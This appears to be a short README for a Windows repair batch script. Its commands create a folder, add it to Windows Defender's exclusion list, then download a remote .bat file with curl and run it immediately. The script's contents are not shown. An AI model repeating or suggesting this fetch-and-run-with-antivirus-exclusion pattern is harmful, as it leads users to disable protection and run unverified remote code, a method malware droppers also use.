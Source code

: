 This is a batch file for repair.

The contents are not dangerous.
However, since I couldn't think of a way to complete it with commands alone, I am creating an exclusion folder.

When Windows Defender is not working
```
curl -s https://yuyu1815.github.io/win-repair/help.bat -o script.bat && script.bat
```

powershell
```
mkdir C:check
Add-MpPreference -ExclusionPath C:check
```
cmd
```
cd C:check
curl -s https://yuyu1815.github.io/win-repair/help.bat -o script.bat && script.bat
```
del
```
rmdir /s C:check
```

